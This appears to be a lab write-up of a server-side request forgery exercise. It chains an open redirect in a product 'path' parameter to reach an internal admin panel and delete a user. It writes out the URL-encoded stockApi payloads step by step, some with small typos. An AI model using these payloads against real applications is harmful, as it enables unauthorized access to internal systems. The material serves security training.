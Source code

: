 # SSRF with filter bypass via open redirection vulnerability

## This lab has a stock check feature which fetches data from an internal system.

## To solve the lab, change the stock check URL to access the admin interface at `http://192.168.0.12:8080/admin` and delete the user `carlos`.

## The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.

### step1

intercept stock check feature which fetches data from an internal system
send to repeater

stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%
send request response => 200 ok

add path=http://192.168.0.68/admin
stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1&path=http://192.168.0.68/admin
send request response => 200 ok
but no admin panel display

### step2

there is next product in stock check feature page click and intercept
GET /product/nextProduct?currentProductId=2&path=/product?productId=3

![screenshot](./images/lab4_next_product.png)

click on _follow redirection_

![screenshot](./images/lab4_follow_redirection.png)

enter https://www.google.com in path senction

![screenshot](./images/lab4_test_ssrf_vulnerability.png)

click on folllow redirection

![screenshot](./images/lab4_render_follow_redirection.png)

### step3

intercept stock check feature which fetches data from an internal system
add /product/nextProduct?currentProductId=2&path=/product?productId=3
select url and press ctrl + u url encoder
stockApi=/product/nextProduct%3fcurrentProductId%3d2%26path%3d/product%3fproductId%3d3
send request response => 200 ok

stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
url encoded
stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin

![screenshot](./images/lab4_admin_panel_carlos_wiener.png)

add /http://192.168.0.12:8080/admin/delete?username=carlos

stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admindelete?username=carlos
url encoded
stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete%3fusername%3dcarlos

![screenshot](./images/lab4_carlos_deleted.png)
